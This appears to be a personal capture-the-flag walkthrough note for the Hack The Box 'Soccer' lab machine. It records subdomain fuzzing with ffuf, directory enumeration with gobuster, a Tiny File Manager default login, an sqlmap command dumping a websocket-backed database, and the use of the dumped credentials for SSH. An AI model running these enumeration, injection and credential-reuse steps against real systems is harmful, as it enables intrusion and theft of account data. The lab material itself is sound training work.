 # ip 10.10.11.194

# find subdomains
ffuf -u http://soccer.htb/ -w ../../../SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host : FUZZ.soccer.htb" | grep 200
ffuf -u http://soccer.htb/ -w ../../../SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host : FUZZ.soccer.htb -fs 178

# enum
gobuster dir -u soccer.htb -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20

# lien 
http://soccer.htb/tiny/tinyfilemanager.php

# faille 
H3k / tiny File Manager 2.4.3

# identifiant
user : admin
pass : admin@123

# etc/hosts
soc-player.soccer.htb

# lien 
http://soc-player.soccer.htb/

# websocket 
ws://soc-player.soccer.htb:9091

# dump tables
sqlmap -u "http://localhost:9091/?id=64767" -T accounts -D soccer_db --dump --batch

# info table accounts
id,email,password,username
1324,player@player.htb,PlayerOftheMatch2022,player

# connection ssh
user : ssh player@10.10.11.194
pass : PlayerOftheMatch2022